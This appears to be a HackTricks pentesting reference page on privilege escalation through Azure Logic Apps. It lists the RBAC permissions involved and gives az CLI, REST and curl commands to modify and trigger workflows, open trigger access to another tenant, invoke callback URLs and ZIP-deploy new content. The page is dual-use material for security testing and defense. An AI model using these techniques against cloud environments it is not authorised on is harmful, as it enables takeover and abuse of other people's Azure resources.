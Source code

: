 # Az - Logic Apps Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Logic Apps Privesc
For more information about SQL Database check:

{{#ref}}
../az-services/az-logic-apps.md
{{#endref}}

### (`Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.Logic/workflows/read`, `Microsoft.Logic/workflows/write` && `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`) && (`Microsoft.Logic/workflows/triggers/run/action`)

With this permission, you can create or update, Azure Logic Apps workflows. Workflows define automated processes and integrations between various systems and services.

```bash
az logic workflow create \
  --resource-group <resource_group_name> \
  --name <workflow_name> \
  --definition <workflow_definition_file.json> \
  --location <location>

az logic workflow update \
  --name my-new-workflow \
  --resource-group logicappgroup \
  --definition <workflow_definition_file.json>
```

And after changing it, you can run it with:

```bash
az rest \
  --method post \
  --uri "https://management.azure.com/subscriptions/{subscriptionId}/resourcegroups/{resourceGroupName}/providers/Microsoft.Logic/workflows/{logicAppName}/triggers/{triggerName}/run?api-version=2016-10-01" \
  --body '{}' \
  --headers "Content-Type=application/json"
```
Addittionaly with just `Microsoft.Logic/workflows/write` you change the Authorization Policy, giving for example another tenant the capability to trigger the workflow:
```bash
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<resource-group-name>/providers/Microsoft.Logic/workflows/<workflow-name>?api-version=2016-10-01" \
  --body '{
    "location": "<region>",
    "properties": {
      "definition": {
        "$schema": "https://schema.management.azure.com/providers/Microsoft.Logic/schemas/2016-06-01/workflowdefinition.json#",
        "contentVersion": "1.0.0.0",
        "parameters": {
          "$connections": {
            "defaultValue": {},
            "type": "Object"
          }
        },
        "triggers": {
          "<trigger-name>": {
            "type": "Request",
            "kind": "Http"
          }
        },
        "actions": {},
        "outputs": {}
      },
      "accessControl": {
        "triggers": {
          "openAuthenticationPolicies": {
            "policies": {
              "<policy-name>": {
                "type": "AAD",
                "claims": [
                  {
                    "name": "iss",
                    "value": "<issuer-url>"
                  }
                ]
              }
            }
          }
        }
      }
    }
  }'

```

### `Microsoft.Logic/workflows/triggers/listCallbackUrl/action`
You can get the callback URL of the trigger and run it.

```bash
az rest --method POST \
  --uri "https://management.azure.com/subscriptions/<subscription_id>/resourceGroups/<resource_group>/providers/Microsoft.Logic/workflows/<workflow_name>/triggers/<trigger_name>/listCallbackUrl?api-version=2019-05-01"
```

This will return a callback URL like `https://prod-28.centralus.logic.azure.com:443/workflows/....`. Now we can run it with:

```bash
curl --request POST \
     --url "https://prod-28.centralus.logic.azure.com:443/workflows/<workflow_id>/triggers/<trigger_name>/paths/invoke?api-version=2019-05-01&sp=%2Ftriggers%2F<trigger_name>%2Frun&sv=1.0&sig=<signature>" \
     --header 'Content-Type: application/json' \
     --data '{"exampleKey": "exampleValue"}'
```

### (`Microsoft.Web/sites/read`, `Microsoft.Web/sites/basicPublishingCredentialsPolicies/read`, `Microsoft.Web/sites/write`, `Microsoft.Web/sites/config/list/action`) && (`Microsoft.Web/sites/start/action`)
With these permissions, you can deploy, Logic App workflows using ZIP file deployments. These permissions enable actions such as reading app details, accessing publishing credentials, writing changes, and listing app configurations. Alongside the start permissions you can update and deploy a new Logic App with the content desired

```bash
az logicapp deployment source config-zip \
  --name <logic_app_name> \
  --resource-group <resource_group_name> \
  --src <path_to_zip_file>
```

{{#include ../../../banners/hacktricks-training.md}}


